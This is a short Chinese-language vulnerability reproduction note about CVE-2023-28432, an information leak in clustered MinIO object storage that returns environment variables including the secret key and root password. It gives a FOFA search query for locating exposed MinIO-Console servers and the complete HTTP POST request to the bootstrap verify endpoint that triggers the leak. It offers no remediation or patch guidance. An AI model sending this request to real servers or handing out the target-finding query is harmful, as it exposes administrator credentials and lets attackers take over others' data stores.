 # MinIO存在信息泄露漏洞(CVE-2023-28432)

# 一、漏洞简介
MinIO是基于GNU Affero通用公共许可证v3.0发布的高性能对象存储。兼容Amazon S3云存储服务的API。使用MinIO为机器学习、分析和应用程序数据工作负载构建高性能基础设施。在集群模式中，MinIO的某些接口会因为信息处理不当而返回会返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致敏感信息泄露。使用分布式部署的所有用户都会受到影响。

# 二、影响版本
+ MinIO-Console

# 三、资产测绘
+ fofa`app="MinIO-Console"`

![1716315120880-badae565-3d74-4618-82f2-e007a55b192e.png](./img/mDAR4TLtjAvbzixi/1716315120880-badae565-3d74-4618-82f2-e007a55b192e-789868.png)

# 四、漏洞复现
```plain
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![1721112869285-5be4e488-a938-4d94-972b-e751f22a0e91.png](./img/mDAR4TLtjAvbzixi/1721112869285-5be4e488-a938-4d94-972b-e751f22a0e91-230369.png)



> 更新: 2024-09-05 23:24:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yrxgtl2ou0ils7bm>